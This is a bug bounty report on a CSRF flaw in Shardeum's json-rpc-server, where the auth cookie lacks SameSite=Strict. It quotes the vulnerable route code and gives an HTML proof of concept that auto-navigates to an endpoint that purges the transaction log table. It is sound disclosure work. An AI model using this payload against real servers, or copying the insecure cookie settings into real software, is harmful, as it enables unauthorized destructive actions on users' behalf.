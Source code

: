 
# CSRF vulnerability due to missing `SameSite=Strict` attribute resulting blackhat to perform authenticated action

Submitted on Sat Aug 10 2024 12:56:34 GMT-0400 (Atlantic Standard Time) by @hulkvision for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #34367

Report type: Websites and Applications

Report severity: Low

Target: https://github.com/shardeum/json-rpc-server/tree/dev

Impacts:
- CSRF vulnerability allowing blackhat to perform authenticated actions
- Changing sensitive details of other users (including modifying browser local storage) without already-connected wallet interaction and with up to one click of user interaction, such as: Email, Password of the victim etc.

## Description
## Brief/Intro
The access-token was missing `SameSite=Strict` attribute which leads to CSRF vulnerability resulting in allowing BlackHat to perform authenticated actions.
 
## Vulnerability Details
In `src/routes/authenticate.ts`
```
router.route('/:passphrase').get(async function (req: Request, res: Response) {
  const { passphrase } = req.params
  const payload = { user: 'shardeum-dev' }
  if (passphrase === CONFIG.passphrase) {
    // token don't expire, usually this is bad practice
    // for the case being implementing refresh token is overkill
    // stolen token worst case scenario our debug data ended up being not useful.
    const token = jwt.sign(payload, CONFIG.secret_key)
    res.cookie('access_token', token, {
      httpOnly: false,
      maxAge: 1000 * 60 * 60 * 700, // ~ a month
    })
    return res.send({ token: token, message: 'authenticated and authorized for debug api calls' }).status(200)
  }
  return res.send({ message: 'wrong passphrase' }).status(400)
})
```
After authenticating the rpc server does not define `SameSite=Strict` cookie restriction, which results in allowing malicious websites to call authenticated `GET` API which perform  actions like purging tables,modifying config values, node subscription etc.

## Impact Details
* The vulnerability allows malicious websites performing actions like purging tables,modifying config values, node subscription etc.
* The vulnerability could result in deletion of debug data.
## References
https://github.com/shardeum/json-rpc-server/blob/d799a64c1ab4a7cffdf472a8be689fe7afb993e9/src/routes/authenticate.ts#L15-L18

        
## Proof of concept
## Proof of Concept

```
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>csrf performing authenticated action</title>
</head>
<body>
	<h1> calling /log/cleanTxTable which will trigger purging of table that store transaction logging </h1>
	<a href="http://127.0.0.1:8888/log/cleanTxTable"> click here to attack </a>
</body>

<script type="text/javascript">
	function callAutomatically() {
        document.location = 'http://127.0.0.1:8888/log/cleanTxTable';
    }

    setTimeout(callAutomatically,3000);

</script>
</html>
```

## Steps to Reproduce
1. Authenticate to RPC server with password
2. Save the poc file as `csrfpoc.html`
3. Open `csrfpoc.html`  from the browser you have authenticated with RPC server.
4. Either click on `Click here to attack` or wait 3 second for attack to happen automatically
5. You will see a response `{"success":true}`